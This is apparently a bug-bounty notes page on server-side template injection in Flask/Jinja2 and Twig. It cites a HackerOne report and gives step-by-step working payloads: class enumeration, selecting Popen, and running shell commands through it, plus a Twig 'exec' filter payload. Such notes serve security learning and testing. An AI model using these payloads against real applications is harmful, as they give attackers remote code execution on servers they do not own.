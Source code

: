# **Server Side Template Injection:**
  
- In this section I will place some links on some report from hackerone on how a researcher was able to identify an SSTI in a flask application that allowed him to get Remote Code Execution.
- [HackerOne Report by Orange Tsai](https://hackerone.com/reports/125980) in this report explains how he was able to identify an SSTI from just changing the profile name to {{'7'*7}} and received an email saying he updated his name to '7777777' this means that the server is processing the user input. Hence from there he was able know that it was a Flask Template Engine(Jinja2) application and he was able to inject code that would allow him to attain Remote Code Execution.

  - Python has so many ways of running commands using classes like subprocess or os.
  - Below are some payloads one can use when you meet a Flask Application.
    - **Payloads:**
      - To test if the flask application is processing user input one can use this: **`{{'7'*7}}`**
      - To identify the classes one can use this: **`{{''.__class__.mro()[2].__subclasses__()}}`** then follow the below instructions. (If the payload doesn't provide any output you can play around with the number. It's a trial and error basis.)
        - Expected output: ![image](https://user-images.githubusercontent.com/29776892/82662194-199b5a00-9c36-11ea-8eb1-85a2f683c9c6.png)
        - Then copy the output inside `vi` or `sublime-text`
        - Then use the below in `vi` to clean the output where you are basically replacing the greater than with an end of line return cariage. (This will set each class which is represented as such `<class-name>`) And then set numbers to identity the class number because in the next payload we are calling the class through it's number.
        `:%s />/\r/g` && `:set number`
        - After cleaning the code, you can proceed and search for `popen` a [python class](https://docs.python.org/2.4/lib/node239.html)
    - Use this payload to call the Popen class, where `X` is the number of the class. **`{{''.__class__.mro()[2].__subclasses__()[X]}}`** **Note:** that the numbering of array in most programming languages start at `Zero`.
      - **Note:** Also do note that you can use `os.popen` Method or `subprocess.Popen`.
    - Use this payload to execute commands: **`{{''.__class__.mro()[2].__subclasses__()[233]("commands", shell=True,stdout=-1).communicate()[0]}}`**

    &nbsp;

    - Resources to read on the above:
      - [Python Subprocess Management](https://docs.python.org/3/library/subprocess.html)
      - [Orange Tsai Blog on the bug - Use google translator extension](http://blog.orange.tw/2016/04/bug-bounty-uber-ubercom-remote-code_7.html)
      - [Server-Side Template Injection:RCE for the modern webapp](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
      - [Use Python features to execute arbitrary code in Jinja2 templates - Use google translator extension](https://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/)
      - [Exploring SSTI in Flask/Jinja2 Part1](https://web.archive.org/web/20160309173230/https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/)
      - [Exploring SSTI in Flask/Jinja2 Part2](https://web.archive.org/web/20170710015954/https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
      - [CSAW-CTF Python sandbox write-up](https://hexplo.it/post/escaping-the-csawctf-python-sandbox/)

    &nbsp;

    - This payload can mainly be used to perform an SSTI in an old version of Twig version 1.9.0. (I would love to mention that to get such a payload one would have to read the documents and understand how the application template process code. :smile:)
      - **Payload:** `{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}`